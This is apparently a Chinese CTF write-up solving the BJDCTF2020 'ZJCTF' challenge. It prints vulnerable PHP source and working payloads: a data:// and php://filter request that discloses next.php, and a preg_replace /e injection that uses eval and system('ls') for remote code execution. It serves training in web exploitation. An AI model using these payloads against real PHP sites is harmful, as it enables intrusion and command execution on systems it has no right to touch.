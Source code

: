 # [BJDCTF2020]ZJCTF，不过如此

## 知识点

`php伪协议`

`php代码审计`

`preg_replace的RCE漏洞`

## 解题

题目源码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

提示读取`next.php`,`payload`

```
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php
```

`next.php`源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

这里主要涉及到`preg_replace`的一个RCE漏洞，参考：<https://xz.aliyun.com/t/2557>

```
preg_replace( '/(' . $re . ')/ei','strtolower("\\1")', $str);
```

主要就是构造`preg_replace('.*')/ei','strtolower("\\1")', {${此处填函数名}});`
大概就是把所有字符替换为函数执行结果。
但是`GET`传`.*=xxx`会出问题，自动将第一个非法字符转化为下划线（看链接），所以构造：

```
/next.php?\S*=${eval($_POST[1])}
```

同时`POST`一个`1=system('ls');`
